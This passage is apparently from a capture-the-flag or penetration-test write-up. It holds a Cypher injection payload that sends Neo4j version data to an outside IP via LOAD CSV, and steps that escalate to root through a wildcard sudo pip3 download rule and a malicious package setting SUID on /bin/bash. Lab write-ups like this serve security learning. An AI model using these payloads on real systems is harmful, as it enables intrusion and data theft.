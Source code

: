 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```
## Privilege Escalation - Insecure SUDO binary permissions.

**Vulnerability Explanation**: After establishing a foothold on target as user “john”, it was checked which commands was possible to run as sudo and found that john is authorized to run “/usr/bin/pip3 download http://127.0.0.1:3000/*.tar.gz” as sudo. As there is a wildcard (*) in the command, it is possible to download any file with extension “.tar.gz” from localhost port 3000. In this port is where the Gogs is running so it is possible to upload a malicious python package to an existing repository that executes the code we want and download it with privileges (thus, ex-ecuting the code with privileges) using the available command.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/8daad85a-a18d-4192-b608-129bc013d0c8)

**Vulnerability Fix**: Avoid using wildcards on the available sudo commands.

**Severity**: Critical

**Steps to reproduce the attack**:

•	Create a malicious python package (https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/). In this case, the code sets the SUID bit active to “/bin/bash”
      
•	Upload the malicious package to the “Test” repository (or a newly created one).
      
•	Set the repository “Test” as “public” (or check that the repository used is Visible).

•	Execute ``` sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/src/master/exploitpy-0.0.1.tar.gz ```
      
•	Execute ``` /bin/bash -p ```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a9ba1b91-ec82-469f-a2e0-c2a7a248c5cb)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/96ca378d-45d4-46fa-bba7-c13746e2f99d)






























```